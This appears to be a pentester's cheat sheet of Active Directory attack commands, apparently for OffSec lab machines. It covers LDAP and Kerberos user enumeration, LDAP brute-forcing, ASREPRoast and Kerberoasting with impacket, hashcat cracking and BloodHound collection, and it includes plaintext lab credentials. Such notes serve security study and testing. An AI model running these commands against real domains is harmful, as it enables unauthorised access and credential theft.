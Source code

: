 ### Enumeration
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
```
Extract users:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep sAMAccountName

Extract all info:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec"

Extract description:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep description

Extract naming context:
ldapsearch -H ldap://192.168.151.122 -x -s base namingcontexts

Nmap auto enum:
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials

enum4linux -a -v ip
```
### User enumeration
```
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
### If you have valid credentials to login into the LDAP server, you can dump all the information about the Domain Admin using:
```
pip3 install ldapdomaindump 
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```
```
If you find something saying that the "bind must be completed" means that the credentials are incorrect.

You can extract everything from a domain using:

Copy
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
```
### Brute-force
```
nmap --script ldap-brute -p 389 <IP>
legba ldap --target 127.0.0.1:389 --username admin --password @wordlists/passwords.txt --ldap-domain example.org --single-match
```
### ASREPRoast
>ASREPRoast is a security attack that exploits users who lack the Kerberos pre-authentication required attribute. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

ASREPRoast with username list without pass
```
impacket-GetNPUsers nara-security.com/ -dc-ip 192.168.209.30 -usersfile users.txt -format hashcat -outputfile hashes.txt
```
ASREPRoast with credential
```
impacket-GetNPUsers nagoya-industries.com/Fiona.clark:Summer2023 -dc-ip 192.168.183.21  -request -outputfile hashes.asreproast 

hashcat -m 18200 -a 0 passwords_kerb.txt hashes.asreproast
```
### Kerberos Roasting
```
impacket-GetUserSPNs -request -dc-ip 192.168.219.21 nagoya-industries.com/svc_helpdesk:U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
```
> Error of Clock Skew too great
```
sudo timedatectl set-ntp off
sudo rdate -n 10.10.10.100
Open a new terminal
```
### Querying User Data
```
impacket-GetADUsers nagoya-industries.com/'':'' -user pass -dc-ip 192.168.219.21
```
### Domain Info 
```
bloodhound-python -ns 192.168.219.21 -d nagoya-industries.com -u 'Fiona.Clark' -p 'Summer2023' -c all
```
